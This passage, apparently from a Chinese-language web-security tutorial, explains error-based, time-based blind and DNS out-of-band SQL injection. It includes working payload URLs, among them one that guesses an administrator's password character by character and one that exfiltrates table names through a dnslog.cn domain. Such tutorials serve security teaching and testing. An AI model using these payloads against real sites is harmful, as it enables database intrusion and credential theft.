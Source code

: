 为了提取出一些数据库内的信息，报错注入会故意执行一些导致数据库报错的行为，并将这些信息显示在报错页面上。报错注入的函数调用与错误触发方式，与具体的数据库管理系统以及版本相关，所以在注入之前我们需要确认数据库管理系统的相关信息。例如：

```plain
http://www.example.com/product.php?id_product=10' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
http://www.example.com/product.php?id_product=10' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
```

第一个`payload`会运行`1/0`，这会导致SQL产生报错。第二个`payload`不会运行`1/0`，导致SQL不会产生报错，我们可以分别尝试上述注入，通过应用是否会产生不同的响应，来做出判断。如果会产生响应，那么我们就可以使用报错注入来获取到一些我们想要的信息。

下面我们一起看一个例子。

```sql
SELECT * FROM products WHERE id_product=$id_product

# http://www.example.com/product.php?id_product=10' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

在这个例子中，我们假设`Users`表中有`Username`以及`Password`两个字段，现在已知存在一个用户名为`Administrator`，现在想要猜测他的密码。

这时我们可以利用上述payload，判断密码首字母的ASCII码是否大于`m`的ASCII码。如果大于，那么就会运行`1/0`，这会引起除零错误，否则就不会引起错误。类似于布尔注入的方法，我们可以通过不断地尝试来获取到`Password`的值。

### 时间盲注

我们顺着报错注入的例子，继续深入思考。如果应用系统具备很好的错误处理逻辑，这样在响应请求时不会产生异常，报错注入就会失效。这种情况，我们可以尝试时间盲注（又称为时延注入）。

这种攻击方案的底层逻辑是，攻击者通过控制注入的参数，能够获得服务器的响应延时控制权。这种注入方式与数据管理系统相关，具体实施需要确认数据管理系统的信息。如下为一个时间盲注示例：

```sql
SELECT * FROM products WHERE id_product=$id_product

# http://www.example.com/product.php?id_product=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--
```

在这个例子中，攻击者先检查MySQL的版本是否为5，如果判断为真，则让服务器延时十秒返回结果。

### DNS带外注入

在盲注的情况下，假设应用程序是异步执行的，也就是说，应用程序需要在原始线程处理用户的请求，并同时在另一个线程使用跟踪cookie执行SQL查询，这样我们刚才提到的注入方法都会失效。这时如果我们想要成功进行注入，可以尝试使用DNS带外注入。

在了解DNS带外注入前，我们需要一点点前置知识，就是泛域名解析。那么什么是泛域名解析呢，其实很简单，就是\*.的所有域名解析到同一IP，举个例子，talentsec.cn指向了一个IP，在使用了泛域名解析技术的情况下，test.talentsec.cn也会指向同一个IP地址。

DNS带外注入，是使用不同通道检索数据的技术（例如，建立 HTTP 连接将结果发送到 Web 服务器等）。这个方法使用DBMS的功能，执行带外连接，并将注入查询的结果作为请求的一部分传递给攻击者。和报错注入类似，每个数据库管理系统有自己独有的功能函数，我们需要确认数据库管理系统的信息。下面就是一个DNS带外注入的示例：

```sql
SELECT * FROM products WHERE id_product=$id_product

#http://www.example.com/product.php?id_product=10 and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security' limit 0,1),".afl3zg.dnslog.cn\\aa.txt")) --+
```
